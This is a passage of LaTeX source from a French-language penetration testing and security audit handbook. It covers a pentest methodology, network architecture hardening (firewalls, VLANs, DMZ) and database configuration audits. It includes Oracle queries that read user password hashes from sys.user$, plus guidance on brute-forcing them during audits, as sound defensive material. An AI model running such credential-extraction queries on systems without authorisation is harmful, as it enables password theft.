  \tikzstyle{start} = [draw, very thick, fill=white, diamond, minimum height=3em, minimum width=7em, node distance=7em, font={\sffamily\bfseries}]
  \tikzstyle{stateEdgePortion} = [thick];
  \tikzstyle{stateEdge} = [stateEdgePortion,->];
  \tikzstyle{authServEdge} = [green,thick,->];
  \tikzstyle{authClientEdge} = [red,thick,->];
  \tikzstyle{edgeLabel} = [pos=0.5, text centered, font={\sffamily\small}];
  \node[start, name=start] {Début};
  \node[state, name=scope, below of=start] {Scope};
  \node[state, name=analyse, below of=scope] {Analyse};
  \node[state, name=usage, below of=analyse] {Usage};
  \node[state, name=formulation, below of=usage] {Formulation};

\draw ($(start.south)$) 
      edge[stateEdge] node[edgeLabel, xshift=0.6em]{Définition du périmètre} 
      ($(scope.north)$); 
  \draw ($(scope.south)$) 
      edge[stateEdge] node[edgeLabel, xshift=0.6em]{Recherche documentaire} 
      ($(analyse.north)$); 
  \draw ($(analyse.south)$) 
      edge[stateEdge] node[edgeLabel, xshift=-0.5em]{Exploitation des failles} 
      ($(usage.north)$); 
  \draw ($(usage.south)$) 
      edge[stateEdge] node[edgeLabel, xshift=0.6em]{Rédaction pour le client} 
      ($(formulation.north)$); 
  \draw ($(usage.west)$) 
      edge[stateEdge,bend left=60] node[edgeLabel, xshift=-1em, yshift=0em,rotate=90]{Exploitation des résultats partiels} 
      ($(analyse.west)$);
  \draw ($(usage.east)$) 
      edge[stateEdge,bend right=45] node[edgeLabel, rotate=-90, yshift=1em]{Découvertes de nouvelles cibles} 
      ($(scope.east)$);       
\end{tikzpicture}
\end{lrbox}
\newpage
\begin{landscape}
	\footnotesize
	\section{Récapitulatif}
	\begin{Recap}{TI@Test d'intrusion!Méthodologie}{TI \textcolor{Green}{Interne}/\textcolor{red}{Externe}}
		\begin{enumerate}
			\item Scope 
			\begin{itemize}
				\item Définition claire du périmètre de la cible
				\item Découverte passive des services disponibles \begin{itemize}
					\item \textcolor{red}{Par recherche sur bases de données (whois, dorks)}\toolindex{whois}\toolindex{dork}
					\item \textcolor{Green}{Par écoute du réseau et des échanges sur le réseau (tcpdump, wireshark)}\toolindex{tcpdump}\toolindex{wireshark}
				\end{itemize}
				\item Découverte active des services disponibles et de leur version \begin{itemize}
					\item \textcolor{red}{nmap, patator, transfert de zone}\toolindex{nmap}\toolindex{patator}\index{Active Directory}
					\item \textcolor{Green}{ping sweep, nmap, dns interne, Active directory}
				\end{itemize}
			\end{itemize}
			\item Analyse
			\begin{itemize}
				\item Recherche des vulnérabilités existantes pour la version
				\item Recherche des exploits existants pour ces vulnérabilités (exploit-db, cvedetails, 1337day, packetstorm, metasploit)
				\item Recherche de failles de conception (Injection SQL, Injection de commande)
			\end{itemize}
			\item Usage
			\begin{itemize}
				\item Essai des mots de passe standards.
				\item Utilisation des vulnérabilités propres à la cible.
				\item Utilisation d’exploits contrôlés ou validés par la communauté.
				\begin{itemize}
					\item[\rightturn] Retour vers la phase d’acquisition active en cas de résultat positif 
				\end{itemize}
				\item Formaliser les résultats par risques/impact
				\begin{itemize}
					\item[\Stopsign] En cas de vulnérabilité présentant un risque/impact important, informer immédiatement le client.
				\end{itemize}
			\end{itemize}
			\item Formalisation
			\begin{itemize}
				\item Mettre en place une synthèse claire pour le client (voir méthode de rédaction)
			\end{itemize}
		\end{enumerate}
		\tcblower
		\begin{center}
			\usebox\SchematicsBox
		\end{center}
	\end{Recap}
	\normalsize
\end{landscape}
\chapter{Audit d'architecture}
\begin{Define}{AA@Audit d'architecture!Schéma}
	
\includegraphics[width=\textwidth]{auditarchi.png}
	\tcblower
	\textcolor{Green}{1 Infrastructures réseaux: \hyperref[Firewall]{Firewall} (a) et \hyperref[Switch]{Switch} (b)}\\
	\textcolor{blue}{2 \hyperref[DMZ]{\gls{DMZ}}: Interface avec le web}\\
	\textcolor{red}{3 \hyperref[UserJumbo]{Domaines ou Groupes d'utilisateurs}}\\
	4 \hyperref[ArchiDatabase]{Bases de données}.\\
\end{Define}
\begin{Pre}
	Le consultant devra demander aux responsables du système d'information le plan du réseau et les règles et les usages qui le définissent.
\end{Pre}
\section{Infrastructures réseaux}
\begin{Define}{IR@Infrastructure réseau}Les infrastructures réseaux représentent l'épine dorsale d'une architecture de Systèmes d'Information. Permettant tout à la fois de réguler les contacts avec l'extérieur et contrôler les flux internes, les équipements constituent la base du SI. Deux équipements particuliers prennent une place importante dans la sécurité de cette architecture: le Firewall et le Switch. Ces deux équipements définissent respectivement l'accès au SI et ses interactions internes.\end{Define}

\subsection{Firewall\label{Firewall}}
\subsubsection{Statefull et Stateless}
\begin{Define}{parefeu}
	Le parefeu représente à la fois le point d'entrée et de sortie de tous les réseaux d'entreprise. Il peut être accompagné d'autres dispositifs de sécurité tel qu'un \gls{IDS}\index{IDS}, un \gls{IPS}\index{IPS} ou l'utilisation de serveurs relais pour éviter un déni de service. Le parefeu doit être soumis à des règles strictes afin d'éviter tous flux non désirés vers l'extérieur ou vers l'intérieur du réseau.\\
	Un \textbf{parefeu stateless} ne prend pas en compte les états de session (TCP, UDP...).\MarginPar{\textbf{Parefeu réseau}}{0cm}\\
	Un \textbf{parefeu statefull}, à l'inverse, prend en compte les sessions en cours, nouvelles ou créées pour définir ses blocages. De plus un parefeu statefull permet souvent de gérer les \gls{NAT} et le forwarding.\index{parefeu!stateless}\index{parefeu!statefull}
\end{Define}
	Lors de son audit, le consultant doit récupérer les régles du parefeu et, si elles existent, les statistiques d'utilisation des ports. La collecte des règles peut se faire par le consultant lui-même ou être demandée au client.
\begin{FlagConsole}{Extraction parefeu}
	\begin{itemize}
		\item Pour iptables (GNU/Linux), la commande d'extraction
			\toolindex{iptables}\tool*{iptables-save}[\#] permet d'extraire les règles parefeu au format 
			iptables. Cette commande donne les règles parefeu uniquement.
		\item Pour Packet Filter\toolindex{Packet Filter} (BSD/OS X), la commande 
			\tool*{pfctl -sa}[\#] permet d'extraire les règles parefeu et leurs 
			statistiques d'utilisation.\MarginPar{\textbf{Règles des Parefeu}}{0cm}
		\item Pour Windows XP/Vista\index{Windows!XP}\index{Windows!Vista}, la commande
			dépréciée \tool*{netsh firewall show config} permet d'obtenir la configuration 
			complète du parefeu local.
		\item À partir de Windows Server 2008,\index{Windows!2008}\index{Windows!7}
			la commande \tool*{Get-firewallRule -enabled True},
			permet d'extraire les règles sur Powershell.
	\end{itemize}
	Pour la plupart des solutions commerciales (Juniper, Cisco ASA...), une interface web produisant une sortie visuelle des \gls{ACL} (html,excel...) est disponible.
\end{FlagConsole}

	À partir de l'extraction des règles ou des \gls{ACL}s, le consultant pourra être en mesure de déterminer les politiques réseau de l'entreprise. Il devra alors chercher à appliquer des réductions de droits en se basant sur la politique du droit minimum. Ainsi le parefeu pourra éventuellement diriger vers des \gls{DMZ}s pour les besoins extérieurs de l'entreprise mais l'accès au reste du réseau depuis l'extérieur devra être minimisé voir supprimé.
\begin{Warning}Si l'audit est réalisé suite à un incident, le consultant peut également demander à obtenir les journaux d'évènements du parefeu. Il pourra ainsi proposer plus facilement une stratégie optimale de défense.\end{Warning}

	\subsubsection{\gls{WAF}\label{WAF}}
\begin{Define}{parefeu!WAF}Un \gls{WAF} ou parefeu applicatif est un parefeu agissant sur les couches supérieures du modèle OSI. Ce type de parefeu analyse les données applicatives qui circulent (HTTP, FTP, SMTP) et agit dessus.\end{Define}
	La présence de parefeu applicatif au sein d'un réseau disposant de serveur Web, de mail ou de fichiers est très fortement recommandé. Cependant il faut noter que les WAF orientés web présentent souvent des incompatibilités avec les CMS ou les applications web lourdes.\MarginPar{\textbf{Parefeu applicatif}}{0cm} De plus l'utilisation d'un WAF peut nécessiter une coupure dans un flux sécurisé (SSL), il faut alors s'assurer de la cohérence et de la sécurité des flux.\\
	On peut noter parmi les WAF des logiciels comme Naxsi\footnote{https://github.com/nbs-system/naxsi}\toolindex{Naxsi} ou Modsecurity\toolindex{Modsecurity}\footnote{https://modsecurity.org/} pour le Web, et F5 (BigIP) pour les mails ou le ftp. Naxsi agit également sur l'upload de fichier en formulaire Web.\\
\begin{Warning}
	\MarginPar{\textbf{DPI}}{0cm}Un DPI (Deep Packet Inspection) ou Firewall NextGen est un WAF évolué permettant non seulement de contrôler les entrées et sorties du réseau mais également de disséquer la plupart des protocoles des couches supérieures OSI à la recherche de comportement suspicieux. Dans certaines entreprises, le DPI tempère les connexions SSL en utilisant un certificat interne à l'entreprise.
\end{Warning}

\subsection{Switch\label{Switch}}
\begin{Define}{Switch}Un switch est un dispositif sur le réseau opérant sur la couche 2 du modèle OSI (data link). Il permet d'isoler et de relier des réseaux entre eux en fonction de ses tables de routage et des ACLs définissant les routes entre les VLANs. Il permet en outre de monitorer le réseau et d'optimiser les situations d'engorgement.\end{Define}
	\subsubsection{VLAN}\index{Switch!VLAN}
	\MarginPar{\textbf{ACL}}{0cm}L'isolation par \gls{VLAN} permet de protéger les différents groupes d'utilisateurs entre eux mais également de pouvoir superviser plus aisément les machines appartenant à des groupes identiques. Dans une configuration idéale, un VLAN administrateur séparé de celui des utilisateurs permet d'administrer l'ensemble des machines. Les connexions de ce groupe pourront s'initier vers n'importe quel VLAN utilisateurs ou équipements et éventuellement vers les VLANs contenant les serveurs industriels ou serveur de production. Le VLAN administrateur ne doit servir qu'à l'administration.\\
Les échanges sont ensuite réglementés en vertu de la politique du moindre droit et doivent restreindre l'accès à une connexion internet (ou à un proxy internet) au moins de VLANs possibles.
\begin{Warning}Sur les switch Cisco, le masque des adresses IP est inversé. Un masque 0.0.0.0/255.255.255.255 correspondra donc à un broadcast sur l'ensemble des destinations. C'est une erreur fréquente.\end{Warning}
\subsubsection{Port mirroring}
	\MarginPar{\textbf{Monitoring}}{0cm}Le Port Mirroring consiste à envoyer tout paquet transitant par un switch à un serveur de monitoring en vue d'analyse, de statistiques ou d'écoute. Cette solution peut être prise en compte par le consultant afin de mettre en place des sondes réseau pour le client.\\
	C'est sur ce système qu'est basée la technologie propriétaire Netflow\toolindex{netflow} disponible sur les routeurs Cisco. Netflow est massivement utilisé pour écouter les échanges en entreprise et constitue un outil utile de réponse sur incident.

\section{DMZ\label{DMZ}}
\begin{Define}{\gls{DMZ}}
	Une \gls{DMZ} ou DeMilitarized Zone est une zone du réseau exposée directement à Internet. Cette zone peut servir d'intermédiaire entre Internet et les utilisateurs (par l'utilisation de proxy par exemple) ou entre les serveurs et internet. Le plus couramment, une DMZ est occupé par le proxy de sortie pour l'accès au Web au sein de l'entreprise et par les serveurs de présentation de l'entreprise (web, mail, sftp). Les serveurs se trouvant sur une DMZ sont nommés des bastions du fait de leur place sur le réseau.
\end{Define}
Une DMZ est une zone extrêmement exposée par définition. Parce qu'elle est en prise directe avec internet, ses serveurs doivent régulièrement être mis à jour. Les ports classiques étant scannés régulièrement par des attaquants externes, tout service vulnérable sera rapidement découvert. Pour éviter que ce risque se transmette à l'ensemble du réseau, les serveurs sont placés dans une DMZ isolée du réseau interne de l'entreprise. Ainsi, un serveur web vulnérable ne permettra pas de s'attaquer au contrôleur du domaine. Cependant, et comme pour tout serveur, il reste souhaitable que toutes les machines soient régulièrement mise à jour.\\


\includegraphics[width=0.9\textwidth]{DMZ_1.png}

Sur le schéma ci-dessus le serveur web est isolé mais cependant ayant besoin d'un accès à la base de donnée, il envoie des requêtes dans le réseau interne. Cette configuration est bonne, le serveur de base de données est protégé d'accès extérieurs. En supposant qu'il soit bien configuré et bien compartimenté, il n'apportera à un attaquant du site que les informations relatives à celui-ci.\\


\includegraphics[width=0.9\textwidth]{DMZ_2.png}

Cependant il ne s'agit pas de la meilleure configuration possible: de manière optimale, l'interface avec l'extérieur passera par un frontend ou reverse proxy qui interceptera les requêtes avant de les router au serveur approprié. Ainsi même exposés sur internet, les serveurs web disposeront d'une protection supplémentaire via les reverses proxy, les protégeant des attaques réseaux ciblant le logiciel hôte. Le reverse proxy peut se doubler d'un WAF (voir \ref{WAF}) ou de protection applicative similaire (DPI/IDS). À l'aide des \gls{VLAN}s, les serveurs sont ensuite protégés des autres serveurs en DMZ et isolés, les accès aux VLANs devant être limités au strict nécessaire.

\begin{Warning}
	Un usage réfléchi des \gls{VLAN}s et DMZ permet de proposer un accès extérieur aux prestataires ou aux clients de l'entreprise mais cela n'assure en aucun cas une solidité parfaite: les bastions doivent être soigneusement protégés derrière des parefeux et mis à jour régulièrement. La remontée et l'analyse des fichiers journaux des bastions et de la DMZ sont fortement recommandées.
\end{Warning}

\section{Espace utilisateur\label{UserJumbo}}
\begin{Define}{\gls{WiFi}}
	L'espace utilisateur désigne l'espace du réseau où se trouvent les ordinateurs/serveurs/terminaux disposant d'un contact direct avec l'utilisateur final. Il est nécessaire de différencier deux type d'espaces utilisateurs: celui réservé aux employés (postes de travail, réseau d'entreprise, sortie VPN...) et celui accessible par des utilisateurs externes ou des visiteurs (Wi-Fi public, postes à disposition...). Il s'agit normalement de deux espaces réseaux distincts séparés l'un de l'autre, voire de deux réseaux distincts.
\end{Define}
\begin{Warning}
	De par leur nature respective, il est très dangereux d'ouvrir des liens entre ces réseaux. Il convient également de sensibiliser les employés à l'utilisation du réseau de l'espace public, y compris pour leurs données personnelles.
\end{Warning}
\subsection{Espace entreprise}
	L'espace d'une entreprise, à partir de la PME, se divise en sections distinctes qui constituent les différents corps de métiers la faisant fonctionner. Ainsi le service comptabilité, le service RH et le service de mise en production ont des besoins totalement différents comme par exemple de l'accès à internet (direct ou via proxy) ou de service tel que l'accès aux machines de production ou, plus prosaïquement, aux imprimantes. \\
	\subsubsection{Active Directory}
	Différentes méthodes existent pour mettre en place cette subdivision. Dans une entreprise équipée de client et de serveurs sous Windows, il est possible de mettre en place un découpage par Active Directory, permettant de gérer de manière hiérarchique les comptes utilisateurs et les machines sur un site géographique voir sur tous les sites de l'entreprise. Cette division peut se faire en forêt, en arbres, en domaines, puis en unités organisationnelles (OU). Ces sections sont d'importance variées et dépendent grandement de la taille de la structure. Dans une PME, la plus haute classification devrait être le domaine, les sous-services étant recoupés par les OU. Cependant dès que l'entreprise prend du volume, plusieurs domaines apparaitront pour contrôler les imprimantes, les machines de production... à ce moment, les domaines appartiendront à un arbre et s'il se répartit sur plusieurs site à une forêt.\MarginPar{\textbf{Active Directory:} Unités organisationnelles}{-1cm}\\
	La division par Active Directory ne permet pas un isolement physique ou réseau parfait de la section, il s'agit de politique de droit d'accès qui peuvent être contournés en modifiant les paramètres. Cependant, la gestion par domaine permet d'établir facilement les routes réseau et les politiques de DNS interne. Le serveur Active Directory réalisant ses taches et permettant la supervision du comportement d'utilisateur par remontée d'évènement. Il faut cependant se rappeler qu'il s'agit d'utilisateurs sous contrôle et non de personnes disposant d'un accès administrateur sur leur poste.
	\subsubsection{\gls{VLAN}}
	Pour compléter la politique par AD ou indépendamment d'elle, il est conseillé de séparer les espaces et les divisions administratives en VLAN. Ainsi les accès seront restreints aux utilisateurs isolés entre les \gls{VLAN}s. Par exemple, la comptabilité n'a pas besoin d'accès direct sur Internet ni les postes sensibles de la Direction qui devrait même être davantage protégés. Le respect de la politique du moindre droit est une clef dans la construction d'un système d'information sécurisé. Il convient donc de l'appliquer dans cette situation.\\
	Dans le cas le plus courant, les groupes d'utilisateurs sont divisés par \gls{VLAN}s, les infrastructures en réseaux (imprimante, serveurs de partage) disposent chacune d'un \gls{VLAN} qui leur est propre et les accès réseaux eux même sont soumis à des politiques d'\gls{ACL}. Un exemple est représenté ci dessous:\\
	
\includegraphics[width=\textwidth]{auditarchi_2.png}
	\subsubsection{WLAN}
	L'accès à un réseau sans-fil peut se faire de manière sécurisé via l'association à une base Radius, les employées s'identifient alors avec leur nom d'utilisateur/mot de passe qui leur sont propres. L'implémentation la plus standard passe par l'utilisation d'un MSCHAPv2 pour la transmission des mot de passe qui se base sur une implémentation de NTLM en réseau. Il s'agit de la sécurité \textbf{minimum} à utiliser. En cas d'utilisation de certificat interne, le certificat de l'entreprise devra être présent sur tous les terminaux l'utilisant.

\subsection{Espace public}
	L'espace public consiste en un réseau consacré aux invités tel que des infrastructures (borne libre d'accès, \gls{WiFi}) leur permettant d'accéder à Internet ou à des ressources du réseau interne (consultation de la consommation d'énergie, du compteur électrique). Ils sont considérés comme des terminaux de confiance nulle. Ils sont donc de se fait exclus du réseau interne, sauf en cas de besoin précis, limité par des routes vers l'accès à des ressources précises.
	\subsubsection{WLAN}
	L'accès au \gls{WLAN} ne peut pas être régulé par une politique d'AD car sujet à des changements réguliers d'utilisateurs. L'utilisation d'une configuration basé sur un SSID protégé par un mot de passe peut être utilisé mais à la condition que le mot de passe soit suffisamment complexe, changé régulièrement et que ce mot de passe soit fourni avec parcimonie. La configuration idéale se base sur la création d'un token pour chaque invité et le passage obligatoire par un passage actif. Il est possible de laisser l'utilisateur s'identifier lui-même ou le token peut être fourni à l'accueil sur présentation d'une pièce d'identité.
	\subsubsection{Borne libre d'accès}
	Les bornes libre d'accès sont accessibles par n'importe quels visiteurs. Il est possible de les superviser de plusieurs manières: logiciel de surveillance lié au PC de sécurité, poste déporté (utilisation de VMs jetables pour chaque session), bridage des fonctionnalités... La société peut ainsi protéger ses machines en ne laissant aucun accès au reste du réseau à ces bornes et un accès direct à Internet, cependant du point de vue des responsabilités légales, il est fortement recommandé de surveiller leur usage.

\section{Base de données\label{ArchiDatabase}}
Il est nécessaire de considérer les différents types de bases de données qu'on peut rencontrer en entreprises:\begin{itemize}
	\item Base de données de production: Les bases de données de production doivent être protégées pour n'être accessibles que depuis les systèmes de production, ainsi la surface d'exposition des données est réduite au maximum par les infrastructures. Avec un accès restreint, il est plus facile de superviser et surveiller les accès aux bases de données.
	\item Base de données de sauvegarde: Les bases de données de sauvegarde (ou backup) doivent être hors réseau. Il s'agit de base servant pour restaurer le système en cas de destruction volontaire ou involontaire de données. Afin de pallier aux risques de destruction physique des données, ces bases de données devraient être hébergées en dehors du site de l'entreprise. Certaines sociétés privées proposent ce type de services.
	\item Liste des utilisateurs: il existe différentes solutions de gestion d'identités au sein d'une entreprise. Les plus courantes sont basées sur LDAP. C'est le cas notamment de Active Directory et de Samba. Ces serveurs étant utilisés pour la supervision des utilisateurs, ils se trouvent nécessairement sur le réseau de l'entreprise avec un accès important. Il s'agit d'une cible importante puisque nécessaire pour collecter les identités de toute l'entreprise, il convient donc de bien la protéger.
\end{itemize}
Au delà des politiques réseaux individuelles, les \gls{SGDB} doivent être souvent mises à jour ainsi que leurs patchs appliqués. Enfin la configuration des bases et des gestionnaires doit être contrôlée (voir \hyperref[AuditConf]{Audit de configuration}).
\begin{Warning}
	Le consultant doit penser à recharger le service concernant la base de données après une mise à jour. Sur GNU/Linux, il suffit de relancer le module après l'avoir éventuellement rechargé (sur systemd).
\end{Warning}

\begin{landscape}
\section{Récapitulatif}
\begin{Recap_2}{AA@Audit d'architecture!Récapitulatif}{Schéma récapitulatif d'une architecture type}{}
		
\includegraphics[width=\textwidth]{AuditArchiRecap.png}
	\end{Recap_2}
\end{landscape}

\chapter{Audit de configuration}\label{AuditConf}
\begin{Pre}Le consultant devra demander au client les fichiers de configuration au client. Ceux-ci pourront être extrait par un script dédié fourni par le consultant.\end{Pre}
\section{Règles générales}
\begin{Define}{AC@Audit de configuration!Règles générales}
Il y a un certain nombre de points à contrôler lors d'un audit de configuration. De manière générale, une liste courte peut être établie:\begin{itemize}
	\item Les mises à jour sont-elles appliquées et comment?
	\item La surface exposée est-elle réduite au strict nécessaire?
	\item Les droits d'accès sont-ils correctement compartimentés et gérés?
\end{itemize}
\end{Define}

	Un des premiers éléments à vérifier lors d'un audit de configuration est la version du logiciel à contrôler. Outre le fait qu'un logiciel doit être mis à jour régulièrement, il est fréquent que différentes configurations ou options soient disponibles pour différentes versions. Il est nécessaire de ce fait de connaitre les variations d'un logiciel lors de ses mises à jour. Pour exemple, il est possible de prendre en compte l'évolution de la gestion de PHP au sein des serveurs web qui a évolué d'un module à un service indépendant.\MarginPar{\textbf{Les mises à jour}}{0cm}\\
	Le consultant devra effectuer un travail de veille afin de connaitre les évolutions techniques et les variations dans les services proposés par une solution. Dans le cadre d'un audit de configuration, il est nécessaire de prendre en compte l'aspect fonctionnel en plus de l'aspect sécurisé d'un logiciel.\\
	La mise à jour d'un service est une recommandation essentielle pour maintenir un système d'information sûr. Cependant il est possible que celle-ci ne soit pas applicable pour conserver la compatibilité des services. Si aucune solution ne permet d'assurer une sécurité suffisante, le consultant devra alors chercher à proposer une architecture permettant d'isoler le service vulnérable afin de réduire sa surface d'exposition.\MarginPar{\textbf{Surface d'exposition}}{0cm}\\
	De manière générale, un service devrait être exposé au minimum de sorte de ne proposer que les fonctionnalités nécessaires au fonctionnement. Cette protection peut se réaliser en compartimentant le réseau, en filtrant les accès, ou en conditionnant l'accès à la ressource par une authentification préalable.\\
	La réduction de la surface d'exposition peut s'obtenir en appliquant une politique de droits d'accès et de divisions utiles des ressources. Il est possible de limiter l'accès d'un compte donné à des ressources précises, réduisant ainsi le risque en cas d'intrusion d'un vol massif de données. Au delà de la gestion des comptes utilisateurs, il est possible de créer une supervision de l'action des comptes administrateurs en appliquant des méthodes de traçabilité des actions (du type bastion d'administration).\MarginPar{\textbf{Droits d'accès}}{-1cm}\\

\section{Base de données}
	Les bases de données représentent une part importante des systèmes d'information et contiennent des données parfois critiques (données personnelles des clients ou des employés, des comptes de l'entreprise...). Il convient de prendre en compte leur exposition et leur utilité pour les gérer correctement. L'accès à des bases de données doit se faire via des comptes identifiés et limités.\\
	Les comptes doivent être énumérés afin de lister tous les comptes (même les inactifs ou désactivés), leur mot de passe (ou le condensat de celui-ci) et leurs permissions. Ainsi, le consultant tentera brièvement d'obtenir les mots de passe par une attaque rapide sur les condensats. Il analysera ensuite les permissions de chaque compte pour s'assurer qu'aucun droit non pertinent ne soit possédé par un compte.\\
	Les bases de données relationnelles présentées ci-dessous ( Oracle, MySQL, MariaDB, MsSQL, PostgreSQL) utilisent la technologie \gls{SQL}. Les bases de données No-SQL (MongoDB, elasticsearch...) sont également représentés. Cependant dans le cas d'\textit{elasticsearch}\index{BD@Base de Données!elasticsearch}, aucune solution n'est disponible pour durcir son implémentation d'un point de vue confidentialitée. Il est recommandé pour cela d'utiliser un \gls{WAF}. 
\subsection{Oracle}\index{BD@Base de Données!Oracle}
	Le \gls{SGDB} d'Oracle est actuellement sous la version 12c. Cependant la version 11g-R2 n'arrivera en fin de vie qu'au 31 janvier 2018. Il est à noter que la version 11g-R1 est arrivée en fin de vie en août 2015.\\
	Les serveurs Oracle utilisent par défaut le port 1521 comme \textit{listener}, cependant Oracle utilise de nombreux ports en fonction des services.
	\MarginPar{\textbf{SID}}{0cm}Les bases de données Oracle utilise un identifiant unique, le SID, pour gérer la session de la base de données. Sans cet identifiant il est impossible de se connecter ou de tenter de bruteforcer un mot de passe. Cependant, cette valeur est souvent prévisible, il est donc fortement recommandé de la rendre aléatoire ou tout du moins imprédictible pour un attaquant externe. Des listes des SIDs les plus fréquents sont disponibles sur Internet\footnote{http://www.red-database-security.com/scripts/sid.txt}.\\
\begin{FlagConsole}{Obtenir le SID avec Oracle}
La commande pour l'obtenir est:\\
	\sql{SELECT instance FROM v$thread}
\end{FlagConsole}
\begin{FlagConsole}{Lister les utilisateurs avec Oracle}
	Pour lister les comptes utilisateurs à partir de 11g-R1, il faut utiliser:\\
	\sql{SELECT name,spare4,astatus FROM sys.user$}\\
	Avant 11g-R1, il faut utiliser:\\
	\sql{SELECT name,password,astatus FROM sys.user$}\\
